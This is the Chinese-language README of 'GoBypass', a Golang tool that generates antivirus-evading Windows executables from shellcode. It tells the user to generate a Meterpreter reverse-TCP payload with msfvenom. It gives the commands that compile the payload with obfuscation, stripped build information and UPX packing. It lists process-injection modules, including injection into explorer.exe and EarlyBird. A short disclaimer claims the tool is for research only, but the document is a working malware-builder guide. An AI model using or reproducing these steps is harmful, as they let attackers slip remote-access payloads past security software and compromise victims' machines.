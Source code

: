 # GoBypass

### 免责声明

该工具仅用于安全研究，禁止使用工具发起非法攻击等违法行为，造成的后果使用者负责

### 介绍

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

不确定免杀效果如何，核心部分借鉴大佬的代码然后自己造轮子

![LOGO](/img/logo.png)

### 准备工作

在`kali`中使用`msfvenom`生成需要的`payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制完整C语言格式的`shellcode`并写入当前目录的`shellcode.txt`

（无需过多处理，内部会对ShellCode进行编码）

### 生成免杀马

在生成免杀马之前请注意以下三件事

1. 确保安装`Golang`且环境变量中包含`go`否则无法编译
2. 请在当前目录先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`

一切就绪后就可以开始生成了

示例：

1. 使用`CreateThread`模块并删除编译信息：`go run main.go -m CreateThread -d`
2. 删除编译信息且用`garble`混淆源码后编译：`go run main.go -m CreateThread -d -g`
3. 编译后的可执行文件进行`upx`加壳：`go run main.go -m CreateThread -d -g -u`

可选参数如下

| 参数  |                参数说明                 |  参数类型  | 是否必须 |
|:---:|:-----------------------------------:|:------:|:----:|
| -m  |                使用模块                 | string |  是   |
| -s  |    shellcode文件（默认shellcode.txt）     | string |  否   |
| -d  |         使用ldflags -s -w进行编译         |  bool  |  否   |
| -r  |     使用竞态检测器-race进行编译（可能提高免杀效果）      |  bool  |  否   |
| -w  | 隐藏窗口ldflags -H windowsgui（可能降低免杀效果） |  bool  |  否   |
| -u  |           最终生成的exe进行UPX加壳           |  bool  |  否   |
| -g  |        使用garble进行编译（对源码进行混淆）        |  bool  |  否   |
| -h  |               查看帮助信息                |  bool  |  否   |

其中必须的模块参数如下

| 模块名                      | 简介                                              |
|:-------------------------|:------------------------------------------------|
| CreateFiber              | 利用Windows CreateFiber函数                         |
| CreateProcess            | 利用Windows CreateProcess函数在挂起状态下创建进程             |
| CreateRemoteThread       | 远程进程注入ShellCode（注入explorer.exe）                 | 
| CreateRemoteThreadNative | 和上一条区别在于使用更底层的方式（注入explorer.exe）                |
| CreateThread             | 利用Windows CreateThread函数                        |
| CreateThreadNative       | 和上一条区别在于使用更底层的方式                                |
| CryptProtectMemory       | 利用Windows dpapi.h CryptProtectMemory函数          |
| CryptUnprotectMemory     | 利用Windows dpapi.h CryptUnprotectMemory函数        |
| EarlyBird                | 注入的代码在进程主线程的入口点之前运行                             |
| EtwpCreateEtwThread      | 利用Windows EtwpCreateEtwThread函数在进程中执行ShellCode  |
| HeapAlloc                | 创建一个可供调用进程使用的堆并分配内存写入ShellCode                  |
| NtQueueApcThreadEx       | 在当前进程的当前线程中创建一个特殊用户APC来执行ShellCode              |
| RtlCreateUserThread      | 利用Windows RtlCreateUserThread函数（注入explorer.exe） |
| UuidFromStringA          | 利用Windows UuidFromStringA函数                     |

### 参考

尤其感谢`Safe6Sec`师傅的项目

- https://github.com/safe6Sec/GolangBypassAV
- https://github.com/Ne0nd0g/go-shellcode
